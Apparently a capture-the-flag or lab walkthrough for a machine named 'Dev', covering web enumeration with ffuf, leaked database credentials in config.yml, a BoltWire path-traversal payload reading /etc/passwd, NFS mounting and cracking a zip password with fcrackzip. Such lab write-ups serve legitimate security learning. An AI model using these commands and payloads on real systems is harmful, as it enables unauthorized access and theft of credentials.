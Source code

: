 * enumerating HTTP at port 80 and 8080:
	* visiting the links http://DEV_address:8080 and http://DEV_address:80 gives us pages for bolt installations error and php default version webpage resperctively
	* information disclosure:
		 * apache 2.4.38 and PHP version 7.3.27-1~deb10u1 used in website
		 * Bolt installation error page on http://Dev_Address shows that current folder is /var/www/html/. Similarly, Apache run directory given as /var/run/apache2
		 * PHP page shows system details - Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
 * Scanning web apps 
```
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.9:80/FUZZ
#using ffuf for directory scanning

ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://10.0.2.9:8080/FUZZ
```

- Information disclosure:
    
    - Using ffuf, we get directories /public, /src, /app, /vendor, /extensions for  http://DEV_address:80
        
    - Similarly, for http://DEV_address:8080  we get /dev and /server-status

* found a file at /app in http://DEV_address config.yml where i found these credentials : 
```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

* accessing http://DEV_address:8080/dev the page changes and show boltwire that can have some vulnerabilties
* searching in google found an lfi vulnerability with this payload in exploitdb 
```
http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd
#we can see that there is a user with the name jeanpaul
```





* enumerating nfs_acl at 2049
	 * we can use nfs_acl to mount files in our system from Dev:
```
showmount -e Dev_Address #shows export list - /srv/nfs

mkdir /mnt/dev/ #folder to store files

mount -t nfs Dev_Address:/srv/nfs /mnt/dev/

cd /mnt/nfs
ls #show save.zip

unzip save.zip #asks for password 

fcrackzip -v -u -D -p /root/rockyou/rockyou.txt save.zip 
#-v for verbosity, -u for unzip, -D for dictionary attack and -p for passwords file
#password is java101

unzip save.zip #enter password to unzip

ls #shows two files
```
